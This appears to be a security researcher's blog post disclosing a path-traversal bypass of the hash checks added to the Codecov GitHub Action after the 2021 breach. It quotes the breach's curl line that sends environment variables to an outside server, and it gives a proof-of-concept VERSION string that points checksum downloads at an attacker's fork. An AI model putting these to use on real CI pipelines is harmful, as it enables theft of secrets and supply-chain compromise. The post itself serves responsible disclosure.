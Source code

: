 ```yaml
---
layout: post
title: "Hash Verification Bypass in Codecov GitHub Action"
---
```

> Codecov, a test coverage service, disclosed a [considerable supply-chain attack](https://finance.yahoo.com/news/codecov-hackers-breached-hundreds-restricted-234749553.html) on April 15th.
> The preventative hash verification measure added post-fact was trivially vulnerable.


As per Codecov's [own disclosure](https://about.codecov.io/security-update/), the attack involved compromising the hosting of their code uploader [bash script](http://codecov.io/bash) (warning, link downloads file) to add a single line slurping up environment variables to an unknown server:

```bash
curl -sm 0.5 -d “$(git remote -v)<<<<<< ENV $(env)” http://<redacted>/upload/v2 || true
```

The GitHub Actions codecov uploader, despite being written in typescript, actually just downloads the bash script and calls `exec` on it.

## Hash Verification

After disclosing the breach, Codecov engineers [added some hash verification logic](https://github.com/codecov/codecov-action/pull/282) to avoid blindly executing malicious bash code from the web.

I looked at the PR diff out of curiosity, and found a reviewer comment asking why the logic was computing and checking SHA1, SHA256, _and_ SHA512. The author's answer of "although it is unlikely that one would match and another wouldn't, I'd prefer to be thorough" felt like security mysticism so I looked closer for any obvious errors.

`calculateChecksum()`, aptly named, calculates one of the SHA hashes by number using the standard library hash function.

```js
const calculateChecksum = (body, i) => {
  const shasum = crypto.createHash(`sha${i}`);
  shasum.update(body);
  return `${shasum.digest('hex')}  codecov`;
};
```

`retrieveChecksum()` downloads the corresponding hashes that have been checked into the bash script repository.
Downloading hashes smells funny from a security perspective, but I suppose if we're running this typescript on a GitHub Actions machine and couldn't trust GitHub's hosting, we also couldn't trust the script we were currently running. If anything, downloading the bash script itself from GitHub's hosting might have avoided this whole compromise in the first place?

The [SHA1 for 1.0.1](https://raw.githubusercontent.com/codecov/codecov-bash/1.0.1/SHA1SUM), then, contains `0ddc61a9408418c73b19a1375f63bb460dc947a8  codecov`.

```js
export const retrieveChecksum = async (version, encryption) => {
  const url = `https://raw.githubusercontent.com/codecov/codecov-bash/${version}/SHA${encryption}SUM`;
  const response = await request({
    maxAttempts: 10,
    timeout: 3000,
    url: url,
  });

  if (response.statusCode != 200) {
    core.warning(
        `Codecov could not retrieve checksum SHA${encryption} at ${url}`,
    );
    return '';
  }
  return response.body;
};
```

In order to know which versioned hash to check against, the code parses the `VERSION="1.0.2"` line from the script like so:
```js
const getVersion = (body) => {
  const regex = /VERSION="(.*)+"/g;
  const match = regex.exec(body);
  return match ? match[1] : null;
};
```

This string is parsed using a particularly generous regex. Oh no.

## Bypass

I modified the official bash uploader by adding a line of custom code (in this case an `echo`, but just as easily the malicious `curl` of the original breach) and wrote a custom version string:

```bash
#!/usr/bin/env bash

# Apache License Version 2.0, January 2004
# https://github.com/codecov/codecov-bash/blob/master/LICENSE

set -e +o pipefail

VERSION="../../revan/codecov-bash/1.0.1"

echo "doing nefarious things" || true
```

I hosted the script as a [gist](https://gist.github.com/revan/4f24c5336f625d9189f1bcf8f666d4ca), but in an attack scenario the malicious bash file would be once again hosted from their compromised server.

(Aside, yes, the original script sets `+o pipefail` to explicitly _disable_ a disabled-by-default safety feature. Your scripts should [pretty much always start with `set -euo pipefail`](http://redsymbol.net/articles/unofficial-bash-strict-mode/).)

I then forked the codecov-bash repository, and made a single commit [updating the checked in hashes](https://github.com/revan/codecov-bash/commit/48544c3c075b8828cea1a9a91913403da080464a) to be the corresponding hashes of my malicious uploader script.

You can probably put together the parts here, but to summarize: if the new hash-aware GitHub Actions client were served my modified bash file, `getVersion()` would happily return `"../../revan/codecov-bash/1.0.1"`, which `retrieveChecksum()` would interpolate into the url string.
The `../` in the url is interpreted to mean "up a directory" just like in the terminal, backing out of the official codecov repository and into mine.

Either my browser or blog software is eagerly parsing the `../` out of any link, but paste this to see for yourselves:

```
https://raw.githubusercontent.com/codecov/codecov-bash/../../revan/codecov-bash/1.0.1/SHA1SUM
```

The client locally calculates the three hashes, which match the hashes in my repository, and proceeds to execute the script:

```
$ node dist/index.js
[command]/bin/bash codecov.sh -n  -F  -Q github-action
doing nefarious things

  _____          _
 / ____|        | |
| |     ___   __| | ___  ___ _____   __
| |    / _ \ / _` |/ _ \/ __/ _ \ \ / /
| |___| (_) | (_| |  __/ (_| (_) \ V /
 \_____\___/ \__,_|\___|\___\___/ \_/
                              Bash-../../revan/codecov-bash/1.0.1


==> git version 2.31.0 found
```

## Resolution

Because I'm not on a resolute mission to spread chaos, I disclosed this vulnerability to Codecov security@ [per their policy](https://about.codecov.io/security/#codecov-responsible-disclosure-policy) on April 19th.
It was acknowledged same day, and a fix [tightening the regex and hardcoding the hashes](https://github.com/codecov/codecov-action/pull/287) was merged the next.

The code still parses an untrusted downloaded file to extract the version, which rubs me wrong since they could instead check against the `n` most recent hashes, but I don't see any security issues beyond a (pointless) DOS or potential vulnerability in the standard library regex engine.

Security is hard and I only know just enough to know not to trust my own knowledge, but this episode hasn't left me feeling impressed.
